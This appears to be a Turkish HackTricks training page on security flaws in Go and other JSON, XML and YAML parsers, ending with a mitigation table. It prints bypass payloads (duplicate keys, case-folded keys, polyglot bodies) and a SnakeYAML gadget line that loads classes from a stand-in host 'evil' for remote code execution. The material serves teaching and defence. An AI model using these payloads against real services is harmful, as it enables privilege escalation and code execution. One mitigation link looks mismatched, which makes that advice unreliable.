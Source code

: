 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Aşağıdaki sorunlar Go JSON'da tespit edilmiştir, ancak diğer dillerde de mevcut olabilir. Bu sorunlar [**bu blog yazısında**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/) yayınlanmıştır.

Go’nun JSON, XML ve YAML ayrıştırıcıları, **kimlik doğrulamasını atlatmak**, **yetkileri yükseltmek** veya **hassas verileri dışa aktarmak** için kötüye kullanılabilecek uzun bir tutarsızlık ve güvensiz varsayılan ayarlar geçmişine sahiptir.

### (Un)Marshaling Beklenmeyen Veriler

Amaç, bir saldırganın hassas alanları okumak/yazmak için izin verilen yapıları istismar etmektir (örneğin, `IsAdmin`, `Password`).

- Örnek Yapı:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Yaygın Güvenlik Açıkları

1. **Eksik etiket** (etiket yok = alan varsayılan olarak hala ayrıştırılır):
```go
type User struct {
Username string
}
```
Yük:
```json
{"Username": "admin"}
```
2. **Yanlış `-` kullanımı**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Yük:
```json
{"-": true}
```
✔️ Alanın (un)marshalled olmasını engellemenin doğru yolu:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser Farklılıkları

Amaç, farklı parser'ların aynı yükü nasıl farklı yorumladığını kullanarak yetkilendirmeyi atlatmaktır, örneğin:
- CVE-2017-12635: Tekrar eden anahtarlar aracılığıyla Apache CouchDB atlatması
- 2022: XML parser tutarsızlığı aracılığıyla Zoom 0-tıklama RCE
- GitLab 2025 SAML atlatması aracılığıyla XML tuhaflıkları

**1. Tekrar Eden Alanlar:**
Go'nun `encoding/json` **son** alanı alır.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Diğer ayrıştırıcılar (örneğin, Java'nın Jackson'ı) **ilk** olanı alabilir.

**2. Büyük/Küçük Harf Duyarsızlığı:**
Go büyük/küçük harf duyarsızdır:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Unicode hileleri bile işe yarar:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Hizmetler arası uyumsuzluk:**
Hayal edin:
- Go ile yazılmış bir Proxy
- Python ile yazılmış bir AuthZ servisi

Saldırgan gönderir:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python `UserAction`'ı görür, izin verir
- Go `AdminAction`'ı görür, yürütür


### Veri Formatı Karışıklığı (Polyglots)

Amaç, formatları (JSON/XML/YAML) karıştıran veya ayrıştırıcı hatalarında açık kalan sistemleri istismar etmektir:
- **CVE-2020-16250**: HashiCorp Vault, STS'nin XML yerine JSON döndürmesinin ardından JSON'u bir XML ayrıştırıcısı ile ayrıştırdı.

Saldırganın kontrol ettiği:
- `Accept: application/json` başlığı
- JSON gövdesinin kısmi kontrolü

Go'nun XML ayrıştırıcısı **yine de** bunu ayrıştırdı ve enjekte edilen kimliğe güvendi.

- Özel yük:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Sonuç:
- **Go JSON** ayrıştırıcı: `Action_2` (büyük/küçük harf duyarsız + son kazanan)
- **YAML** ayrıştırıcı: `Action_1` (büyük/küçük harf duyarlı)
- **XML** ayrıştırıcı: dize içindeki `"Action_3"`'ü ayrıştırır

---

## Dikkate Değer Ayrıştırıcı Güvenlik Açıkları (2023-2025)

> Aşağıdaki kamuya açık olarak istismar edilebilen sorunlar, güvensiz ayrıştırmanın çok dilli bir problem olduğunu göstermektedir — sadece bir Go problemi değildir.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Etkileyen: `org.yaml:snakeyaml` < **2.0** (Spring-Boot, Jenkins vb. tarafından kullanılır).
* Temel neden: `new Constructor()` **rastgele Java sınıflarını** ayrıştırır, uzaktan kod yürütme ile sonuçlanan gadget zincirlerine izin verir.
* Tek satırlık PoC (savunmasız hostta hesap makinesini açar):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Düzeltme / Önleme:
1. **≥2.0'a Yükseltin** (varsayılan olarak `SafeLoader` kullanır).
2. Eski sürümlerde, açıkça `new Yaml(new SafeConstructor())` kullanın.

### libyaml Çift Serbest Bırakma (CVE-2024-35325)

* Etkiler: `libyaml` ≤0.2.5 (birçok dil bağlaması tarafından kullanılan C kütüphanesi).
* Sorun: `yaml_event_delete()` fonksiyonunun iki kez çağrılması, saldırganların DoS veya bazı senaryolarda heap istismarı yapabileceği bir çift serbest bırakmaya yol açar.
* Durum: Üst akış “API kötüye kullanımı” olarak reddetti, ancak Linux dağıtımları, işaretçiyi savunmacı bir şekilde null-serbest bırakan yamanmış **0.2.6** sürümünü gönderdi.

### RapidJSON Tam Sayı (Alt|Üst)-taşma (CVE-2024-38517 / CVE-2024-39684)

* Etkiler: Tencent **RapidJSON** `8269bc2` commit'inden önce (<1.1.0-patch-22).
* Hata: `GenericReader::ParseNumber()` içinde kontrolsüz aritmetik, saldırganların büyük sayısal literaller oluşturmasına izin verir; bu literaller sarılır ve heap'i bozar — sonuçta, elde edilen nesne grafiği yetkilendirme kararları için kullanıldığında ayrıcalık yükseltmesine olanak tanır.

---

### 🔐 Önlemler (Güncellenmiş)

| Risk                                | Düzeltme / Öneri                                      |
|-------------------------------------|------------------------------------------------------------|
| Bilinmeyen alanlar (JSON)           | `decoder.DisallowUnknownFields()`                          |
| Tekrar eden alanlar (JSON)          | ❌ stdlib'de düzeltme yok — [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) ile doğrulayın |
| Büyük/küçük harf duyarsız eşleşme (Go) | ❌ Düzeltme yok — yapı etiketlerini doğrulayın + girdi ön-canonize edin   |
| XML çöp verisi / XXE                | Sertleştirilmiş bir ayrıştırıcı kullanın (`encoding/xml` + `DisallowDTD`)     |
| YAML bilinmeyen anahtarlar           | `yaml.KnownFields(true)`                                   |
| **Güvensiz YAML serileştirmesi**    | SafeConstructor kullanın / SnakeYAML ≥2.0'a yükseltin            |
| libyaml ≤0.2.5 çift serbest bırakma   | **0.2.6** veya dağıtım yamanmış sürüme yükseltin            |
| RapidJSON <yamanmış commit           | En son RapidJSON ile derleyin (≥Temmuz 2024)              |

## Referanslar

- Baeldung – “SnakeYAML 2.0 ile CVE-2022-1471'i Çözme”
- Ubuntu Güvenlik İzleyici – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
